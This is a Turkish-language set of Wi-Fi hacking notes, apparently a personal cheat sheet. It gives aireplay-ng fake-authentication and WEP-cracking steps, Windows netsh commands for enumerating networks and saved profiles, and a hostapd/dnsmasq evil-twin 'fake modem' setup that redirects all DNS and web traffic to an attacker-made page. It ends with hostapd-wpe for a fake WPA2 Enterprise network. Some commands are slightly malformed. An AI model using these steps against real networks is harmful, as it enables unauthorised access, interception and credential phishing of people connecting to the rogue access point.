     Yetki hatası verirse;
    `aireplay-ng --fakeauth 60 -a modem_mac -h kendi_mac wlan0mon`
    
### Etraftaki Erişim Noktaları Hakkında Bilgi Edinme (Windows)
    Cmd komut satırına `netsh wlan show networks` yazarak etraftaki erişim noktalarını listeleriz.
    `netsh wlan show profiles` -> Pc nin bağlandığı ağların listesi
    Detaylı listeleme için `netsh wlan show networks mode = bssid`

### Sahte Modem Yayını:
    Easy Creds aracını araştır.  Başka yöntem;
    3 şey gerekli. Yayın yapan bir cihaz. DHCP sunucusu ve DNS sunucusu.
    hostapd ve dnsmasq yazılımlarını indir.
    Önceden yönlendirme yapıldıysa hata vermesin diye tüm yönlendirme tablolarını silme;
    `service network-manager stop`	      -> Önce network durdurulur.
    `echo 1 > /proc/sys/net/ipv4/ip_forward`  -> Bu dosyadaki 0 değerini 1 yaptık.
    `iptables --flush`
    `iptables --table nat --flush`
    `iptables --delete -chain`
    `iptables table nat --delete -chain`
    `iptables -P FORWARD ACCEPT`
    
    hostapd.conf dosyasını düzenleme: 
    interface = wlan0
    ssid      = ağ adı
    channel   = 3
    
    dnsmasq.conf dosyasını düzenleme:
    interface	=	wlan0
    dhcp-range	=	10.0.0.10,  10.0.0.100, 8h
    dhcp-option	=	3,  10.0.0.1 (modem ip)
    dhcp-option	=	6,  10.0.0.1 (dns sunucusu)
    addresss	=	/#///10.0.0.1 (her geleni yönlendir)
    
    `dnsmasq -C dnsmasq.conf dosya_yolu`
    `hostapd -c hostapd.conf dosya_yolu -B`   (B: background çalışma)
    
    Sahte modeme hedef girdiğinde onu ilk bağlandığında yada farklı siteler açmaya çalıştığında bizim oluşturduğumuz index.html sayfasına yönlendirmek için;
    /etc/apache2/sites-enabled/000-default.conf dosyasını düzenle.Sonra şu  komutu çalıştır;
    `a2enmod rewrite`
    
### WEP Parola Kırma
    1.	Dinleme modda hedef cihazın mac adresini öğren.
    2.	Hedefe arpreplay ile paket gönderimi yap.
    3.	Aircrack-ng ile dataların artmasına göre parolayı kırmayı dene.

### WPA2 Enterprise
    Kurumsal sahte ağ yayını oluşturma.
    
    Uygulamayı kur.
    `apt-get install hostapd-wpe`
    